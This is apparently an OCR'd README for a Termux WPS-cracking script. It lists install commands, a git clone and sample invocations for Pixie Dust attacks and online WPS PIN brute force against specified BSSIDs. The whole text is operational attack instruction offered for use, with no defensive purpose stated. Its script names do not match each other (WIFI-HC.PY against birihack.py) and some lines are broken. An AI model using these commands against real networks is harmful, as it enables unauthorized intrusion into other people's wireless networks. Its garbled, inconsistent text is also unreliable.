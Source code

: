 # Installation : 
apt update && apt upgrade
pkg install -y root-repo
pkg install -y git tsu python wpa-supplicant pixiewps iw
git clone https://github.com/Flymajik/WIFI-HC.PY
cd WIFI-HC.PY
chmod +x WIFI-HC.PY
sudo python WIFI-HC.PY --help 

# Note: 

# [<\>] First turn off your Wifi. 

Show avaliable networks and start Pixie 

Dust attack on a specified network. 

sudo python birihack.py -i wlan0 -K 

Start Pixie Dust attack on a specified 

. BSSID: sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K 

Launch online WPS bruteforce with the 

specified first half of the PIN: 

. sudo python birihack.py -i wlan0 -b 

00:90:4C:C1:AC:21 -B -p 1234 

# Troubleshooting 

"Device or resource busy (-16)" - Turn on 

Wifi and Then Turn off Wifi.

